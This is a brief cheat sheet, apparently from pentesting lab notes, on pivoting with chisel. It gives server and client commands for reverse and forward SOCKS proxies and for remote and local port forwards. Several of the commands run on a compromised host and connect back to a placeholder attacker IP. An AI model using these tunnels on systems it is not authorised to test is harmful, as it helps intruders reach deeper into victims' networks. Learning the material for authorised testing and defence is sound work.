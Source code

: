 ## Reverse SOCKS Proxy

- Listen on attacking machine
`./chisel server -p LISTEN_PORT --reverse &`
This sets up a listener on your chosen `LISTEN_PORT`.
- On the compromised host, we would use the following command:
`./chisel client ATTACKING_IP:LISTEN_PORT R:127.0.0.1:<port to open for proxy>:socks &`
This command connects back to the waiting listener on our attacking box, completing the proxy

## Forward SOCKS Proxy

- On the compromised host run the following :
`./chisel server -p LISTEN_PORT --socks5` 
- On our own attacking box we would then use:
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

## Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.

-  on our attacking machine we use the exact same command as before:
`./chisel server -p LISTEN_PORT --reverse &`

- On the compromised host use the following 
  ` chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
  
## Local Port Forward
  
- On the compromised target we set up a chisel server:
`./chisel server -p LISTEN_PORT`
- We now connect to this from our attacking machine like so:
` ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT `